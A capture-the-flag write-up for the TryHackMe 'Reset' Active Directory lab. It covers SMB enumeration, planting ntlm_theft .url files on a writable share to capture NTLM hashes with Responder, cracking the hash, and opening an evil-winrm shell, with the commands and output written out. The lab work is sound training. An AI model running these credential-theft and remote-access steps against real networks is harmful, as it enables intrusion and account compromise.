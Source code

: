 ```yaml
---
title: "Reset TryHackMe"
tags:
    - machine
    - THM
    - Active Directory
date: "2024-09-22"
thumbnail: "/assets/img/thumbnail/reset.jpeg"
bookmark: true
---
```

# Description
---
This challenge simulates a cyber-attack scenario where you must exploit an Active Directory environment
Test your penetration skills, bypass security measures, and infiltrate into the system. Will you emerge victorious as you simulate the ultimate organization APT?

Find all the flags!

# enumeration
## Namp Scan
```bash
 ─(mostafa㉿mostafa)-[~]
└─$ nmap -sC -sV -A  10.10.81.57 -T4 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-17 19:20 EEST
Nmap scan report for 10.10.81.57
Host is up (0.080s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-18 16:20:31Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.corp0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.corp0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```
we have many open ports 
first thing came in my mind -> enumerate `smb` using `crackmapexec` it accept anonymous login 
```bash
─(mostafa㉿mostafa)-[~]
└─$ crackmapexec smb 10.10.130.125 -u 'guest' -p '' --shares
SMB         10.10.130.125   445    HAYSTACK         [*] Windows 10.0 Build 17763 x64 (name:HAYSTACK) (domain:thm.corp) (signing:True) (SMBv1:False)
SMB         10.10.130.125   445    HAYSTACK         [+] thm.corp\guest:
SMB         10.10.130.125   445    HAYSTACK         [+] Enumerated shares
SMB         10.10.130.125   445    HAYSTACK         Share           Permissions     Remark
SMB         10.10.130.125   445    HAYSTACK         -----           -----------     ------
SMB         10.10.130.125   445    HAYSTACK         ADMIN$                          Remote Admin
SMB         10.10.130.125   445    HAYSTACK         C$                              Default share
SMB         10.10.130.125   445    HAYSTACK         Data            READ,WRITE
SMB         10.10.130.125   445    HAYSTACK         IPC$            READ            Remote IPC
SMB         10.10.130.125   445    HAYSTACK         NETLOGON                        Logon server share
SMB         10.10.130.125   445    HAYSTACK         SYSVOL                          Logon server share
```
we have READ permission to `IPC$` 
and READ, WRITE permission to `DATA` 

let’s use `smbclient` to connect
```bash
┌──(kali㉿kali)-[~]
└─$ smbclient -U 'anonymous'%''  '\\10.10.130.125\Data'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Sep 20 15:52:37 2024
  ..                                  D        0  Fri Sep 20 15:52:37 2024
  onboarding                          D        0  Fri Sep 20 16:04:04 2024

                7863807 blocks of size 4096. 3023349 blocks available
smb: \> dir onboarding\
  .                                   D        0  Fri Sep 20 16:04:04 2024
  ..                                  D        0  Fri Sep 20 16:04:04 2024
  b2qknq13.dmg.txt                    A      521  Mon Aug 21 21:21:59 2023
  deiifnya.c2y.pdf                    A  4700896  Mon Jul 17 11:11:53 2023
  rt4rwinz.ime.pdf                    A  3032659  Mon Jul 17 11:12:09 2023

                7863807 blocks of size 4096. 3024293 blocks available
smb: \> dir onboarding\
  .                                   D        0  Fri Sep 20 16:04:34 2024
  ..                                  D        0  Fri Sep 20 16:04:34 2024
  2pccqfr0.saa.pdf                    A  3032659  Mon Jul 17 11:12:09 2023
  mgbfgjaz.shd.txt                    A      521  Mon Aug 21 21:21:59 2023
  xxmw2z0m.cbj.pdf                    A  4700896  Mon Jul 17 11:11:53 2023

                7863807 blocks of size 4096. 3024293 blocks available
```
the file name changing every time 
I notice that I can do activity in the share,so i can put file that allows us to steal user's hash

## steal automate Creds
i found this tip on `hacktricks`
<img src="/assets/img/reset/1.png">
 i ask chatgpt how to do this and here the steps to steal the user hash

1. run `Responder` to listen on your network for SMB authentication requests  
```bash
$ sudo responder -I my_ip(tun0)
```
2. Craft the `.URL` File it triggers an NTLM authentication attempt
3. Place the `.URL` File on a Network Share
4. Capture the NTLM Hash
5. crack it
## Ntlm_theft
and i serached for a tool to do all of this and i found `ntlm_theft` on github
[https://github.com/Greenwolf/ntlm_theft]
```bash
┌──(mostafa㉿mostafa)-[~]
└─$ python3 ntlm_theft.py -g url -s 10.10.130.125 -f hash1
Created: hash1/hash1-(url).url (BROWSE TO FOLDER)
Created: hash1/hash1-(icon).url (BROWSE TO FOLDER)
Generation Complete.
```
now let's upload the `.url` file
<img src="/assets/img/reset/2.png">
i got the hash on responder
<img src="/assets/img/reset/3.png">
save the hash on file and let’s crack it 
<img src="/assets/img/reset/4.png">

## evil-winrm
now we have credentials for `Automate` we can use `evil-winrm` to get a shell and read the user flag
<img src="/assets/img/reset/5.png">
GG i got the user flag ...:)
